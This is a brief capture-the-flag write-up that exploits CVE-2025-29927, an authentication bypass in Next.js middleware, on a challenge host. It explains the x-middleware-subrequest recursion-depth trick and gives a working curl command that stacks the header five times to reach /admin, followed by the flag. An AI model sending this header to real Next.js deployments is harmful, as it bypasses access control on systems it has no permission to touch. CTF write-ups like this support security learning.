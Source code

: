 I find it is running `Next 15.2.2` which is vulnerable to CVE-2025-29927. I read about it here: [https://github.com/MuhammadWaseem29/CVE-2025-29927-POC/blob/main/README.md](https://github.com/MuhammadWaseem29/CVE-2025-29927-POC/blob/main/README.md). 

CVE-2025-29927 allows for authentication bypass in Next.js middleware. Next.js uses an internal header named `x-middleware-subrequest` to mark internal subrequests created by middleware.

In 15.x Next.js added a recursion guard. It keeps a colon separated stack of the middleware identifier in `x-middleware-subrequest` and stops calling middleware once the count hits `MAX_RECURSION_DEPTH = 5`. Stack it in the request 5 times and it will bypass auth completely:
```shell
curl -i -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware" https://epic-cake-battles-c75cf75a31a4b49a.challs.brunnerne.xyz/admin
```
`brunner{0th3llo-iz-b3st-cake}`

___

